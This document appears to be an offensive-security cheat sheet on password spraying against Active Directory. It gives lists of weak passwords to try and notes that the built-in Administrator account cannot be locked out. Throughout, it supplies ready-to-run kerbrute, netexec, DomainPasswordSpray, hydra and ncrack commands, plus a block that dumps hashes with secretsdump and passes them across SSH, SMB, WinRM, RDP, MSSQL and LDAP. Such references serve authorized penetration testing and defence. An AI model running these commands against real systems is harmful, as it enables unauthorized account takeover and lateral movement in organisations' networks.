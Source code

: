 # Password - Spraying

Password spraying refers to the attack method that takes a large number of usernames and loops them with a single password. 

> The builtin Administrator account (RID:500) cannot be locked out of the system no matter how many failed logon attempts it accumulates. 

Most of the time the best passwords to spray are :

- `P@ssw0rd01`, `Password123`, `Password1`, `Hello123`, `mimikatz`
- `Welcome1`/`Welcome01`
- $Companyname1 :`$Microsoft1`
- SeasonYear : `Winter2019*`, `Spring2020!`, `Summer2018?`, `Summer2020`, `July2020!`
- Default AD password with simple mutations such as number-1, special character iteration (*,?,!,#)
- Empty Password (Hash:31d6cfe0d16ae931b73c59d7e0c089c0)


## Kerberos pre-auth bruteforcing

Using `kerbrute`, a tool to perform Kerberos pre-auth bruteforcing.

> Kerberos pre-authentication errors are not logged in Active Directory with a normal **Logon failure event (4625)**, but rather with specific logs to **Kerberos pre-authentication failure (4771)**.

* Username bruteforce
  ```powershell
  root@kali:~$ ./kerbrute_linux_amd64 userenum -d domain.local --dc 10.10.10.10 usernames.txt
  ```
* Password bruteforce
  ```powershell
  root@kali:~$ ./kerbrute_linux_amd64 bruteuser -d domain.local --dc 10.10.10.10 rockyou.txt username
  ```
* Password spray
  ```powershell
  root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt Password123
  root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt rockyou.txt
  root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt '123456' -v --delay 100 -o kerbrute-passwordspray-123456.log
  ```


## Spray a pre-generated passwords list

* Using `netexec` and `mp64` to generate passwords and spray them against SMB services on the network.
  ```powershell
  netexec smb 10.0.0.1/24 -u Administrator -p `(./mp64.bin Pass@wor?l?a)`
  ```
* Using `DomainPasswordSpray` to spray a password against all users of a domain.
  ```powershell
  # https://github.com/dafthack/DomainPasswordSpray
  Invoke-DomainPasswordSpray -Password Summer2021!
  # /!\ be careful with the account lockout !
  Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
  ```
* Using `SMBAutoBrute`.
  ```powershell
  Invoke-SMBAutoBrute -UserList "C:\ProgramData\admins.txt" -PasswordList "Password1, Welcome1, 1qazXDR%+" -LockoutThreshold 5 -ShowVerbose
  ```


## Spray passwords against the RDP service

* Using [RDPassSpray](https://github.com/xFreed0m/RDPassSpray) to target RDP services.
  ```powershell
  git clone https://github.com/xFreed0m/RDPassSpray
  python3 RDPassSpray.py -u [USERNAME] -p [PASSWORD] -d [DOMAIN] -t [TARGET IP]
  ```
* Using [hydra](https://github.com/vanhauser-thc/thc-hydra) and [ncrack](https://github.com/nmap/ncrack) to target RDP services.
  ```powershell
  hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://10.10.10.10
  ncrack –connection-limit 1 -vv --user administrator -P password-file.txt rdp://10.10.10.10
  ```

## Spray passwords against everything
* Using [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec)
```
> Take Administrator Password from mimikatz and secretsdump.py (Make sure you copy and save all the hash into hashes.txt)
proxychains4 -q -f /etc/proxychains_9052.conf python secretsdump.py -hashes :077a55c458dc4002dfdc5321a7659526 EXAMPLE.COM/Administrator@sql01.example.com

echo "" >> users.txt
echo "Administrator" >> users.txt
echo "Guest" >> users.txt
echo "DefaultAccount" >> users.txt
echo "WDAGUtilityAccount" >> users.txt
proxychains4 -q ./cme ssh --continue-on-success -u users.txt -H hashes.txt -d example.com targets.txt | grep "\[+\]"
proxychains4 -q ./cme smb --continue-on-success -u users.txt -H hashes.txt -d example.com targets.txt | grep "\[+\]"
proxychains4 -q ./cme winrm --continue-on-success -u users.txt -H hashes.txt -d example.com targets.txt | grep "\[+\]"
proxychains4 -q ./cme rdp --continue-on-success -u users.txt -H hashes.txt -d example.com targets.txt | grep "\[+\]"
proxychains4 -q ./cme mssql --continue-on-success -u users.txt -H hashes.txt -d example.com targets.txt | grep "\[+\]"
proxychains4 -q ./cme ldap --continue-on-success -u users.txt -H hashes.txt -d example.com targets.txt | grep "\[+\]"
proxychains4 -q ./cme ssh --continue-on-success -u users.txt -H hashes.txt --local-auth targets.txt | grep "\[+\]"
proxychains4 -q ./cme smb --continue-on-success -u users.txt -H hashes.txt --local-auth targets.txt | grep "\[+\]"
proxychains4 -q ./cme winrm --continue-on-success -u users.txt -H hashes.txt --local-auth targets.txt | grep "\[+\]"
proxychains4 -q ./cme rdp --continue-on-success -u users.txt -H hashes.txt --local-auth targets.txt | grep "\[+\]"
proxychains4 -q ./cme mssql --continue-on-success -u users.txt -H hashes.txt --local-auth targets.txt | grep "\[+\]"
proxychains4 -q ./cme ldap --continue-on-success -u users.txt -H hashes.txt --local-auth targets.txt | grep "\[+\]"
```

## BadPwdCount attribute

> The number of times the user tried to log on to the account using an incorrect password. A value of 0 indicates that the value is unknown.

```powershell
$ netexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --users
LDAP        10.0.2.11       389    dc01       Guest      badpwdcount: 0 pwdLastSet: <never>
LDAP        10.0.2.11       389    dc01       krbtgt     badpwdcount: 0 pwdLastSet: <never>
```
